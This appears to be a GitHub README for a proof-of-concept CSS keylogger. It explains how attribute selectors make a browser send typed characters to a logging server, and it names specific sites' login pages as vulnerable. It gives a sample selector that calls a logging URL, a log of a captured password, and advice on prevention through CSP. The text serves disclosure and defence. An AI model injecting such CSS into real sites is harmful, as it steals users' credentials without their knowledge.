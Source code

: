 # CSS Keylogger

Inspired by: https://news.ycombinator.com/item?id=16422696

This is a proof-of-concept keylogger that uses entirely CSS to log the values of inputs on websites that modify the input's `value` attribute.

React and other frameworks may sync the input value with the DOM input attribute, which allows this trick to work. **Otherwise the website is not vulnerable**

For example, the login pages of Pinterest and Instagram are vulnerable. (Inspect the login fields and see how the actual username and password are visible in the DOM)

### How does it work?

The CSS is dynamically generated by the server and generates CSS selectors for input fields ending in every combination of two characters in a reasonable ASCII range.

When a user types into an input field, the CSS selectors will request images from a server, which are then logged. My version also logs when the fields are focused as well as the users IP, so multiple fields and users can be logged.

Example: `input[value$="AB"] { background-image: url("http://localhost:3000/log/AB") }`

### Limitations

- Does not work for certain repeating combinations.
    - The original inspiration for this used CSS selectors for single characters, so only the first instance of a character was logged. My example uses two characters per selector so it can handle strings such as "lol" which include two of the same character, but not repeating strings such as "lolol" (the last "ol" won't be logged).
    - By using three characters per selector it would be possible to log even more combinations, however this results in a huge (80+ MB) file, where the two character version is just under 1MB.
    - Cache-Control headers will _not_ make the browser send multiple requests for the same background image, however they will prevent caching when the page is reloaded.
- Does not account for mouse clicks, copy/pasting, backspaces, arrow keys, etc.
- May not log in the correct order. (I have not tested this but I suppose it could happen when typing fast on a mobile network)

### Prevention

A CSS file like this could be inserted into your website by a malicious package during your build process, or by a user if you allow user-uploaded custom stylesheets.

- If you are using React, use uncontrolled components or remove the value binding.
- The best method is a CSP (Content Security Policy) to only allow scripts, css, images, AJAX requests, etc. to be loaded from trusted sources such as your own domain.

### How to Use

```
yarn install
yarn start
```

Go to http://localhost:3000/

### Example Output

```
CSS keylogger server listening on port 3000!
[::1] field: username
[::1] te
[::1] tes
[::1] test
[::1] field: password
[::1] hu
[::1] hun
[::1] hunt
[::1] hunter
[::1] hunter2
```